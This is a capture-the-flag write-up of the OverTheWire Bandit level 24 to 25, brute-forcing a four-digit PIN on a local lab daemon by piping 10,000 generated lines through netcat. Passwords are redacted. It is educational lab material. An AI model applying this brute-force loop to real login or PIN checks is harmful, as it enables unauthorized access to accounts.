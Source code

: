 # Bandit24 → 25: The Daemon's Lockbox

[Challenge](https://overthewire.org/wargames/bandit/bandit25.html)

---

## Level Description

In this level, you're told that the daemon is listening on port `30002`. It will give you the password for `bandit25` **only if** you send it:
1. The current password for `bandit24`, and
2. A secret 4-digit **PIN CODE**
3. Both should be sent on a single line, separated by a space.

The twist? 
You don't know the exact PIN-- and there's **no way to retrieve it** other than trying all possible combinations: **brute force** the pin (0000..9999).

The good news:
**You don't need create a new connection each time.**

---

## The Process

**Step 1: Logging into bandit24**

As usual, I connected to the Bandit server using SSH:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Once inside, there wasn't much to explore in home directory. 

**Step 2: Test the connection manually**

use `nc` netcat to talk to the daemon on port `30002`.

```bash
nc localhost 30002
```

You'll see this:

```bash
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

Try it with correct password and a random pincode to see how it responds:

```bash
[REDACTED] 8777
```

You'll get a response like:

```bash
Wrong! Please enter the correct current password and pincode. Try again.
```

Perfect--now let's automate it!

**Step 3: Make a temporary working directory**

```bash
mktemp -d 
```

it return:

```bash
/tmp/tmp.wuaaUvfCrE
```

move into that directory:

```bash
cd /tmp/tmp.wuaaUvfCrE
```

- You **don't have write access** to your home directory on bandit.
- `mktemp -d` creates a random-named directory inside `/tmp`, which is both **writable** and **isolated**.
- This prevents other users from guessing your file names or snooping. 

**Step 4: Generate all possible input combinations**

I'll generate 10,000 lines formatted like:

```bash
<password> 0000
<password> 0001
<password> 0002
...
<password> 9999
```

Use this command to generate and save them into a file:

```bash
printf "[REDACTED] %04d\n" {0..9999} >> all_payloads.txt
```

Explanation:

- `%04d/n` pads numbers with leading zeros: `0000`, `0001`, ..., `9999`
- `{0..9999}` loops through all 10,000 numbers
-  `>> all_payloads.txt` writes them all to file for later use.

File succesfully created:
```bash
less all_payloads.txt
```

You confirmed the file contents were as expected.

**Step 5: Send all payloads to the daemon using netcat**

```bash
cat all_payloads.txt | nc localhost 30002 >> results.txt
```

Explanation:

- `cat all_payloads.txt`: reads all the payload lines
- `nc localhost 30002`: pipes each line into the daemon
- `>> results.txt`: appends the daemon's response to a file

Results file created:

```bash
-rw-rw-r-- 1 bandit24 bandit24   678908 Apr  5 01:05 results.txt
```

**Step 6: Find the unique output (correct response)**

```bash
sort results.txt | uniq -u
```

Explanation:
- Most lines in `results.txt` will be the same:
`"Wrong! Please enter the correct current password and pincode. Try again."`
- `sort` puts identical lines next to each other.
- `uniq -u` filters and shows **only lines that appear once** -- that's the successful one!

Output:
```bash
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is [REDACTED]
```

Voila! A golden ticket!

## Password for the Next Level

`[REDACTED]`

## What I Learned




